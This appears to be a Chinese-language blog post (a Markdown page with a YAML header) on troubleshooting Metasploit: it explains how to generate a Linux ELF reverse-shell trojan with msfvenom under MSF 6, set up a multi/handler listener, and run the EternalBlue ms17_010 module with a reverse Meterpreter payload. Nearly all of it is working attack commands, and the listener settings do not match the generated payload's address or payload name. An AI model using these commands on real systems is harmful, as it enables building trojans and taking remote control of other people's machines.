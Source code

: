 ```yaml
---
layout: post
title: msf 生成 linux elf 木马反弹不成功的解决方法
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# 0x01 前言

## 这几天我的msf 要生成linux 的木马 一直反弹不成功，用的是以下的paylaod

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf

我分析了一下报错，这个报错是没问题的，但生成的木马只有250b ，这明显是不成功的。

## 0x02 解决问题

我刚开始认为是我msf的问题 ，回来验证了一下，我的msf 是6的版本，而这个语句是5的写法，而我启动 msfconsole ，发现我的版本是6


**msf 6的生成语句为**

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.3.16 LPORT=4444 -f elf > shell.elf
```
所以我改了payload ：linux/x64/meterpreter_reverse_tcp
这时候，就可以生成成功

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf
```

生成监听

```
msfconsole                                         # 在命令行里面输入命令，进入msf漏洞利用框架；
use exploit/multi/handler                          # 监听木马反弹过来的shell
set payload linux/x64/meterpreter/reverse_tcp  	   # 设置payload，不同的木马设置不同的payload，设置payload时，要根据目标系统的系统位数设置相应的payload;
set lhost 192.168.100.132                          # 我们的kali本机ip
set lport 6666                                     # 我们的kali本机端口
exploit           

```
反弹成功。


![本站favicon](https://raw.githubusercontent.com/dzxindex/picture/main/QQ%E6%88%AA%E5%9B%BE20220314191955.png)


## 利用ms17_010_eternalblue模块进行渗透：
打开msf框架：

msfconsole

使用ms17_010_eternalblue模块及各个配置：

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 目标主机IP

set lhost 监听的主机IP（在这里是docker主机的IP）

set lport 监听的端口（示例中为设置的映射的端口1234）

exploit
